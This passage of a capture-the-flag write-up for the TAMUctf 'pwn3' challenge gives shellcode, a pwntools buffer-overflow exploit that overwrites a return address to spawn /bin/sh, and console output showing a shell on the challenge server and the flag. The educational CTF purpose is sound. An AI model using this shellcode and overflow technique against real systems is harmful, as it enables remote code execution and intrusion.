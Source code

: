 ```c
		  "\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";

int main(void)
{
fprintf(stdout,"Length: %d\n",strlen(shellcode));
(*(void(*)()) shellcode)();
return 0;
}
```

Now, Let's write code:
1. Fill the buffer with shell code and padding
2. Override the return address with the address of our buffer to make shell code run.

```python
from pwn import *

shell= "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

p = process('./pwn3')
data=p.recvuntil("!")
print(data)
address=int(data.split(' ')[-1].replace('!',''),16) # Get the buffer address 

print(address)
payload=shell + "A"*(0x12E-len(shell))+p32(address)
p.send(payload)
p.interactive()

```

Run it:
```console
┌─[evyatar@parrot]─[/media/shared/ctf/TAMUctf/pwn3]
└──╼ $ python pwn3.py 
[+] Starting local process './pwn3': pid 23023
Take this, you might need it on your journey 0xff8af73e!
4287297342
[*] Switching to interactive mode

$ whoami
evyatar
$  

```

And we get our shell code running.

Let's run it against the server ```nc pwn.tamuctf.com 4323``` to get the flag (Change from ```p = process('./pwn3')``` to ```p = remote('pwn.tamuctf.com', 4323)```
```console
┌─[evyatar@parrot]─[/media/shared/ctf/TAMUctf/pwn3]
└──╼ $
[+] Starting
[+] Opening connection to pwn.tamuctf.com on port 4323: Done
Take this, you might need it on your journey 0xff8af73e!
4287297342
[*] Switching to interactive mode
$ ls
flag.txt
pwn3
$ cat flag.txt
gigem{r3m073_fl46_3x3cu710n}
````

Flag: ```gigem{r3m073_fl46_3x3cu710n}```.